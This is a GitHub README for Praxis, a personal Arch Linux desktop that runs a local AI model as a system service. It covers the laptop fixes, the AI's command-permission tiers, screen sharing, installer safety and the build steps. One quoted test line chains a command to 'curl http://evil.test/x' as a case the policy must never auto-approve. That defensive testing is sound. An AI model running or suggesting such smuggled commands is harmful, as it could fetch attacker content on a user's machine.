


<p align="center"></p>
<h1 align="center">Praxis</h1>
<p align="center"><i>Knowledge, put into action.</i></p>

<p align="center">
  <a href="https://github.com/MrMehulkhanna/praxis/actions/workflows/ci.yml"></a>
</p>

---

I had one laptop and a list of things that annoyed me about it.

An ASUS Vivobook: 15 GB of RAM, an Intel Iris Xe and an RTX 4050 with 6 GB,
a Samsung OLED panel. Windows froze when memory ran short. The AI tools I
wanted lived in browser tabs and sent everything to someone else's server.
Brightness keys did nothing. Closing the lid did nothing.

So I started fixing them one at a time, and after a few weeks the fixes had
become an operating system. This is that — an Arch Linux desktop where the AI
is a system service instead of an application, built by one person, in the
open, on the machine described above.

<p align="center"></p>

## The problems, and what each one became

### "The AI is in a browser tab and reads everything I type"

It is a service on the machine now. One model, picked once, reachable from
the top bar, the launcher, the terminal, voice, and any editor that speaks
the OpenAI API.

```console
$ ai "why is my laptop hot?"
```

It gathers real diagnostics — temperatures, running processes, GPU state —
and answers from those rather than guessing from the question.

Models run locally through llama.cpp on your own GPU or CPU. Cloud providers
exist but are off: a paid one is physically unreachable until you add a key
*and* raise the budget mode, checked at the single point every request passes
through. Not a flag someone can forget.

### "I do not trust an AI with a shell"

Neither do I. Every command it proposes is sorted into **auto**, **confirm**
or **forbidden** before anything runs. A command has to positively match a
safe list to run unattended, and a read-only command stops being read-only
the moment its output is redirected.

```python
# src/core/perms/policy.py — the test suite pins both halves
"echo ok & curl http://evil.test/x"     # must never be auto
"ps aux | grep llama"                   # must always stay auto
```

Pinning only the first half is how a security fix turns into a useless
assistant. Both are regression-tested.

### "Windows freezes when I run out of memory"

Compressed zstd swap sized to the RAM, kernel pressure-stall monitoring, and
an out-of-memory guard that unloads the AI model first. The compositor is the
last thing to go, not the first.

### "Brightness keys do nothing"

This laptop exposes two backlight devices and only one drives the panel.
Praxis finds the real one and uses it for the keys, the slider and idle
dimming alike.

There was a second bug underneath that one, worth repeating because it is
invisible: the brightness curve was exponential, so 10% on the slider meant
**raw 0 of 400** — the screen fully off — and everything usable was crushed
into the top third of the travel. It is linear now. Every position does
something.

### "Colours look flat next to Windows"

The panel is a wide-gamut OLED that advertises HDR in its EDID, and the
compositor was driving it through the sRGB preset at 8 bits — the narrowest
pipeline it has.

```console
$ praxis-display color 130 115      # wide gamut, 10-bit, brightness and saturation
```

Ten-bit matters most here: 8-bit banding shows worst in the near-blacks that
OLED is supposed to be good at.

### "Closing the lid does nothing"

It suspends now. The rule had been written into the live ISO but never
installed onto the systems it produced, so every install ran on systemd's
defaults and laptops sat awake in bags. `praxis doctor` checks for it.

### "Updates hang forever"

They used to. `DisableDownloadTimeout` had been added to stop an install
freezing on a slow mirror, and it did the opposite: pacman's timeout fires on
a *stalled* transfer, not a slow one, so a mirror that accepted a connection
and then went quiet meant waiting with no end. Ten open sockets, zero bytes
moving, no error.

Updates now run in a window that streams progress, and when something has
changed that cannot be reloaded in place — kernel, systemd, graphics driver —
it says so and offers to restart, naming which.

### "I want my other laptop to be a second screen"

`Super+Shift+S`. **Extend** asks the compositor for a headless output and
sends it over the network, so the second machine becomes a real third display
with its own workspaces, not a mirror. Sound rides in the same stream as the
picture, so they cannot drift apart.

A viewer needs a six-digit code the host shows on screen. It is a TLS
pre-shared key, not a password checked after connecting — without it the
handshake fails and the stream is never reached, and the session key comes
from the same secret, so everything after is encrypted. Nothing to copy
between machines.

Expect **15–40 ms** on a local network. Fine for a browser or a terminal on
the far screen. Not for games. I would rather give you a number than promise
zero.

### "Installing Linux might eat my Windows partition"

This is the one part I will make a strong claim about, because it is the one
part tested without me.

Every push runs real installs into disk images — including one carrying a
synthetic Windows 11 partition full of files — boots them in QEMU, and checks
them through the guest agent. Windows' files must come back byte-identical or
the build fails. The partition table is backed up and a dry run happens first.

## Try it

```bash
bash iso/flash.sh praxis-*.iso     # refuses anything that is not a USB disk, then verifies
```

Or take the ISO from [Releases](https://github.com/MrMehulkhanna/praxis/releases) (~2 GB).
Boot with UEFI and Secure Boot off; the live desktop comes up on its own, so
you can try the whole thing before installing anything. **Install Praxis** is
in the dock. Details in the [installation guide](docs/INSTALLATION.md).

A few keys worth knowing on first boot:

```
Super              search and launch          Super+I        the assistant
Super+H            voice typing               Super+O        control centre
Super+← →          snap left / right          Super+Shift+S  share this screen
Super+Shift+O      copy text off the screen   Ctrl+Shift+Esc task manager
```

Everything else is in **Settings › Shortcuts**, read live from the running
session so the list cannot drift from what the keys actually do.

## Where it honestly stands

Started October 2026. One author. I use it as my only operating system, which
is the only reason I would suggest anyone else try it — every bug reaches me
first.

**Not done:**

- Keyboard and mouse crossing to a second machine starts and listens, but has
  never been watched working on two machines at once. Treat it as unverified.
- Screen sharing has no discovery. You type an address and a code.
- Hardware beyond this one laptop is handled by detection, not by testing.
  Brightness varies most between vendors; some HP Omen models have known
  problems.
- Secure Boot must be off.
- Back up anything you cannot lose before installing, as with any young OS.

An issue with `praxis doctor` output attached is the fastest route to a fix.

## Under it

Roughly 3,800 lines of Python, 8,000 of QML, 49 system tools. 145 unit tests
and 163 checks across the ISO tree, on every push.



The context engine is the piece I would read first. Candidates come from
SQLite FTS5, scored `0.45·BM25 + 0.25·recency + 0.30·importance`, deduplicated,
and retrieval **stops early** once the budget is met — capped at half the
model's window. The goal is useful context per token, not maximum context.

```
src/        the AI service: context, gateway, router, permissions, tools, agent, voice, RAG
ai          the command-line client
voice/      push-to-talk, with its own default-deny command list
desktop/    the shell (Qt 6 / QML), window manager config, wallpapers
iso/        live ISO, installer, build and flash scripts, system tools
tests/      pytest and iso_checks.sh
```

## Build it

```bash
python -m venv .venv && .venv/bin/pip install -r requirements.txt
cp config/aios.env.example config/aios.env && chmod 600 config/aios.env
systemctl --user enable --now aios.service
.venv/bin/python -m pytest tests/ && bash tests/iso_checks.sh
bash iso/build.sh                                    # the ISO
sudo iso/test-install.sh alongside-btrfs wipe-ext4   # real installs, booted in QEMU
```

`praxis doctor` names anything missing. Issues and pull requests welcome.

---

MIT — see [`LICENSE`](LICENSE). Built on Arch Linux, Hyprland, Quickshell,
llama.cpp, Whisper and PipeWire, each under its own license, none of them
affiliated with this.

<p align="center"><sub><a href="https://mrmehulkhanna.github.io/praxis/">praxis website</a> · made by <a href="https://github.com/MrMehulkhanna">Mehul Khanna</a></sub></p>
